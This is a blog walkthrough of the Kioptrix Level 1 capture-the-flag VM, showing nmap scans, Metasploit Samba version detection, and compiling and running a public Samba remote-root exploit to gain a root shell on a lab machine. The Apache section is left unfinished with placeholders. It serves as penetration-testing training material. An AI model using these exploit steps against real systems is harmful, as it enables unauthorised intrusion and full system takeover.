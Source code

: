 ```yaml
---
title: Kioptrix Level 1 Walkthrough
date: 2018-09-24
excerpt: "Write-up of the 1st of 5 Kioptrix CTF VM Challenges"
tags: [ctf, cybersec, kioptrix, nmap, metasploit]
---
```


Kioptrix consists of five capture-the-flag virtual machine challenges. I intend to write about my methodology of solving each of them in time. This is the first (and easiest). These have been solved many times by people before me, but I feel they represent a good challenge and that documenting my efforts is key to learning.

You can find the VM for download over at [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).

Anyone wishing to run Kioptrix 1 in Virtualbox should consult [this setup guide](https://www.hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/).

## My Setup
Currently, I run Kali in a VM using Virtualbox. I have Kioptrix and any other CTF VMs on a shared NatNetwork with Kali. This way Kali can access the internet and see the VMs. It also keeps everything behind NAT.

**IP Range:** I have my NatNetwork set with a DHCP server with an IP address range of 10.0.2.0/24.
{: .notice}

## VM Discovery
We'll need to get the IP address of the target before we can interact with it. I've used both netdiscover and Nmap's Ping Scan.

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-29 15:57 EDT
...
MAC Address: 08:00:27:47:14:87 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.8
Host is up (0.00020s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.18 seconds
```

So, my target is 10.0.2.8.

## Port Scanning
Let's see what's available to us over the network using Nmap.
I like to run the following arguments on local VMs:
* -p- All ports (1-65535)
* -sV Service Scan, taking guesses at what services are running on the target.
* -T4 Quick timing, but not overly aggressive.
* -sS Stealth SYN scan.
* -O  OS Detection.

```bash
root@kali:~# nmap -p- -sV -T4 -sS 10.0.2.8
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-29 16:04 EDT
Nmap scan report for 10.0.2.8
Host is up (0.00012s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:76:C1:05 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds
```

The important things:
1. OpenSSH 2.9p2 (protocol 1.99) Server running on port 22.
2. Apache 1.3.20 (Red-Hat/Linux) with mods:
    * mod_ssl 2.8.4
    * OpenSSL 0.9.6b
3. Samba on Port 139

## Service Investigation
Let's look at these in detail.

### OpenSSH
I used searchsploit to see if that version of OpenSSH has any public exploits, but I couldn't turn anything up.

### Apache
That version of Apache, combined with that version of mod_ssl is vulnerable to CVE<blah>

searchsploit for mod_ssl

The exploit code is available at /usr/share/exploitdb/exploits/...

It needs to be updated; make the changes as shown [here](https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/).

Screenshot: 0x6a, 0x6b

### Samba
If you aren't aware of [Metasploit](https://www.metasploit.com/), it contains many exploits, scanners, and other wonderful tools. We're going to make use of its Samba scanner.

```bash
root@kali~# msfconsole
...
msf > grep smb search scanner
...
auxiliary/admin/smb/check_dir_file               normal  SMB Scanner Check File/Directory Utility
auxiliary/scanner/smb/smb_version                normal  SMB Version Detection
```

**Grep:** I used 'grep smb search scanner' to filter the results of 'search scanner' to only those with 'smb' in them.
{: .notice}

```bash
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads
```

The important piece is RHOSTS, our target.

```bash
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 10.0.2.8
RHOSTS => 10.0.2.8
msf auxiliary(scanner/smb/smb_version) > run

[.] 10.0.2.8:139          - Host could not be identified: Unix (Samba 2.2.1a)
[.] Scanned 1 of 1 hosts (100% complete)
[.] Auxiliary module execution completed
```

And there's our target's Samba version: 2.2.1a. Let's search for an exploit.

```bash
msf auxiliary(scanner/smb/smb_version) > exit
root@kali~# searchsploit samba | grep 2.2 # Searching for Samba exploits, filtering for version 2.2.x
...
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer | exploits/linux/remote/16321.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote | exploits/linux_x86/remote/16861.rb
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer | exploits/unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Meta | exploits/linux/remote/9936.rb
Samba 2.2.x - Remote Buffer Overflow          | exploits/linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execu | exploits/multiple/remote/10.c
```

The "Remote Code Execution" one sounds good. For reference, Kali keeps a local copy of ExploitDB in /usr/share/exploitdb.

```bash
root@kali~# cp /usr/share/exploitdb/exploits/multiple/remote/10.c 10.c # grab a copy of the exploit code
root@kali~# gcc 10.c # compile using GCC
root@kali~# ./a.out
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./a.out [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode
```

We'll set the options accordingly, which results in the following command.

```bash
root@kali~# ./a.out -b 0 10.0.2.8
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```

Success! We've got a root shell on the host.

## Finding the flag
Flags tend to be in /root, as that's only viewable by the root user. This time, it was in the mail folder, /var/mail.
Running cat on /var/mail/root (Root's mail file) yielded the flag.

## Conclusions
Overall, this makes for a good introduction to CTFs and the methodology required to solve them. At the simplest: detect, scan, find an exploit, run. The Apache method is a bit more involved, but it showcases some neat tricks.
